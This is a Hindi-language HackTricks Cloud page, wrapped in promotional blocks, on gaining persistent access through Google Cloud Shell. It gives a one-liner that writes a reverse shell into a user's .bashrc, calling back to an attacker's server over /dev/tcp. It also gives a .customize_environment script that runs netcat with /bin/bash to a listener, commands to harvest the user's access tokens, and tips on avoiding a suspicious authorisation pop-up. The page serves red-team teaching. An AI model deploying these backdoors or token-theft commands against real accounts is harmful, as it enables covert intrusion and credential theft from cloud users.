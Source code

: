 # GCP - क्लाउड शैल परिस्थिति

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) को PRs जमा करके।
*
*
*
* github रेपो।

</details>

## क्लाउड शैल

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### स्थायी बैकडोर

[**Google Cloud Shell**](https://cloud.google.com/shell/) आपको ब्राउज़र से सीधे आपके क्लाउड संसाधनों तक कमांड लाइन एक्सेस प्रदान करता है बिना किसी जुड़े लागत के।

आप Google के क्लाउड शैल तक पहुंच सकते हैं **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चला कर।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएं हैं:

1. **किसी भी Google उपयोगकर्ता को Google Cloud तक पहुंच** होती है एक पूरी तरह से प्रमाणित क्लाउड शैल इंस्टेंस (सर्विस अकाउंट्स, संगठन के मालिक होने के बावजूद भी, हो सकते हैं)।
2. कहा गया इंस्टेंस **कम से कम 120 दिनों तक अपने होम डायरेक्टरी को बनाए रखेगा** अगर कोई गतिविधि नहीं होती।
3. उस इंस्टेंस की गतिविधि का **कोई संगठन को मॉनिटर करने की क्षमताएं नहीं** हैं।

यह बुनियादी रूप से यह अर्थ करता है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर रख सकता है और जब तक उपयोगकर्ता कम से कम 120 दिनों के अंतराल में GC शैल से कनेक्ट करता है, बैकडोर बना रहेगा और हमलावर को हर बार जब भी यह चलाया जाता है, शैल मिलेगा बस इसे करके:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फ़ोल्डर में एक और फ़ाइल है जिसका नाम **`.customize_environment`** है, यदि यह मौजूद है, तो यह **हर बार चलाया जाएगा** जब उपयोगकर्ता **क्लाउड शैल** तक पहुंचता है (पिछली तकनीक में की तरह)। बस पिछले बैकडोर को डालें या निम्नलिखित जैसा एक बैकडोर डालें ताकि उपयोगकर्ता "नियमित रूप से" क्लाउड शैल का उपयोग करता रहे:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
यह जरूरी है कि ध्यान दें कि **पहली बार जब प्रमाणीकरण की आवश्यकता होती है**, तो उपयोगकर्ता के ब्राउज़र में एक पॉप-अप अधिकारीकरण विंडो दिखाई देती है। इस विंडो को स्वीकार करना आवश्यक है ताकि कमांड चल सके। अगर अप्रत्याशित पॉप-अप दिखाई देता है, तो यह संदेह उत्पन्न कर सकता है और उपयोग किया जा रहा स्थायित्व विधि को क्षति पहुंचा सकता है।
{% endhint %}

यह उपयोगकर्ता सत्र में देखा गया है कि क्लाउड शैल से `gcloud projects list` का निष्पादन करने पर पॉप-अप है (हमलावादी के रूप में) इस तरह दिखाई देता है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

हालांकि, अगर उपयोगकर्ता ने क्लाउडशैल का सक्रिय रूप से उपयोग किया है, तो पॉप-अप नहीं दिखाई देगा और आप **उपयोगकर्ता के टोकन इकट्ठा कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### कैसे SSH कनेक्शन स्थापित होता है

मुख्य रूप से, इन 3 API कॉल का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (यह आपको अपनी स्थानीय रूप से बनाई गई आपकी सार्वजनिक कुंजी जोड़ने पर मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (यह आपको उदाहरण चालू करने पर मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (यह आपको गूगल क्लाउड शैल का आईपी बताएगा)

लेकिन आप [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) में अधिक जानकारी पा सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) को PR जमा करके।
*
*
* github repos.

</details>
